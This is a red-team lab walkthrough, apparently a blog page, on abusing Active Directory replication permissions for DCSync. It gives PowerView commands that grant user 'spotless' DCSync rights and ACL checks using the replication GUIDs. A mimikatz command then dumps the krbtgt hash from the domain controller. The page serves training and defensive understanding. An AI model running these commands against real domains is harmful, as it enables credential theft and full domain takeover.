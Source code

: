 ```yaml
---
layout: post
title: "dump password hashes from domain controller with dcsync"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dump-password-hashes-from-domain-controller-with-dcsync/
---
```


---
layout: post
title: "dump password hashes from domain controller with dcsync"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dump-password-hashes-from-domain-controller-with-dcsync/
---

# DCSync: Dump Password Hashes from Domain Controller

This lab shows how a misconfigured AD domain object permissions can be abused to dump DC password hashes using the DCSync technique with mimikatz.

It is known that the below permissions can be abused to sync credentials from a Domain Controller:

> * The “[**DS-Replication-Get-Changes**](https://msdn.microsoft.com/en-us/library/ms684354\(v=vs.85\).aspx)” extended right
>   * **CN:** DS-Replication-Get-Changes
>   * **GUID:** 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
> * The “[**Replicating Directory Changes All**](https://msdn.microsoft.com/en-us/library/ms684355\(v=vs.85\).aspx)” extended right
>   * **CN:** DS-Replication-Get-Changes-All
>   * **GUID:** 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
> * The “[**Replicating Directory Changes In Filtered Set**](https://msdn.microsoft.com/en-us/library/hh338663\(v=vs.85\).aspx)” extended right (this one isn’t always needed but we can add it just in case :)
>   * **CN:** DS-Replication-Get-Changes-In-Filtered-Set
>   * **GUID:** 89e95b76-444d-4c62-991a-0facbeda640c
>
> [http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/](http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/)

## Execution

Inspecting domain's `offense.local` permissions, it can be observed that user `spotless` does not have any special rights just yet:

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-18-32.png>)

Using PowerView, we can grant user `spotless` 3 rights that would allow them to grab password hashes from the DC:

{% code title="attacker@victim" %}
```csharp
Add-ObjectACL -PrincipalIdentity spotless -Rights DCSync
```
{% endcode %}

Below shows the above command and also proves that spotless does not belong to any privileged group:

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-21-02.png>)

However, inspecting `offense.local` domain object's privileges now, we can see 3 new rights related to `Directory Replication` added:

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-21-09.png>)

Let's grab the SID of the user spotless with `whoami /all`:

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-28-18.png>)

Using powerview, let's check that the user `spotless` `S-1-5-21-2552734371-813931464-1050690807-1106` has the same privileges as seen above using the GUI:

{% code title="attacker@kali" %}
```csharp
Get-ObjectAcl -Identity "dc=offense,dc=local" -ResolveGUIDs | ? {$_.SecurityIdentifier -match "S-1-5-21-2552734371-813931464-1050690807-1106"}
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-27-54.png>)

Additionally, we can achieve the same result without PowerView if we have access to AD Powershell module:

{% code title="attacker@victim" %}
```csharp
Import-Module ActiveDirectory
(Get-Acl "ad:\dc=offense,dc=local").Access | ? {$_.IdentityReference -match 'spotless' -and ($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) }
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-09 15-11-36.png>)

See [Active Directory Enumeration with AD Module without RSAT or Admin Privileges](active-directory-enumeration-with-ad-module-without-rsat-or-admin-privileges.md) to learn how to get AD module without admin privileges.

### DCSyncing Hashes

Since the user `spotless` has now the required privileges to use `DCSync`, we can use mimikatz to dump password hashes from the DC via:

{% code title="attacker@victim" %}
```csharp
lsadump::dcsync /user:krbtgt
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-34-44.png>)

## References

{% embed url="http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/" %}

{% embed url="https://blog.stealthbits.com/extracting-user-password-data-with-mimikatz-dcsync/" %}

{% embed url="https://medium.com/@jsecurity101/syncing-into-the-shadows-bbd656dd14c8" %}
@spotheplanet
